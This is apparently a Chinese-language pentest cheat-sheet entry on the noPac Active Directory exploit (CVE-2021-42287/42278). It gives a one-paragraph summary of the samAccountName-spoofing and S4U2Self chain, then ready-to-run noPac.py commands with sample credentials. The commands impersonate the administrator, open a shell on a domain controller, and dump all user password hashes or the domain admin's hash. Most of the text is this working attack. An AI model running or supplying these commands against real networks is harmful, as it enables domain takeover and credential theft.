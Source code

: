 - CVE-2021-42287/CVE-2021-42278

在拥有一个域用户账号密码的情况下，通过修改 samAccountName 属性为域控机器名，使用该用户去申请一张带有 Pac 的 tgt，在将该用户的 samAccountName 属性修改成原来的值(或者其他的都可以)，最后再利用 S4U2Self 协议去请求访问域控制器获取该服务的 ST 票据。

```sh
proxychains python noPac.py nasa.gov/test:'QWEasd!@#999' -dc-ip 10.10.10.140 -dc-host AD01 -shell --impersonate administrator
proxychains python noPac.py nasa.gov/test:'QWEasd!@#999' -dc-ip 10.10.10.140 -dc-host AD01 --impersonate administrator -use-ldap -dump    #导出所有用户哈希
proxychains python noPac.py nasa.gov/test:'QWEasd!@#999' -dc-ip 10.10.10.140 -dc-host AD01 --impersonate administrator -dump -just-dc-user Administrator    #只导出域管用户哈希
```
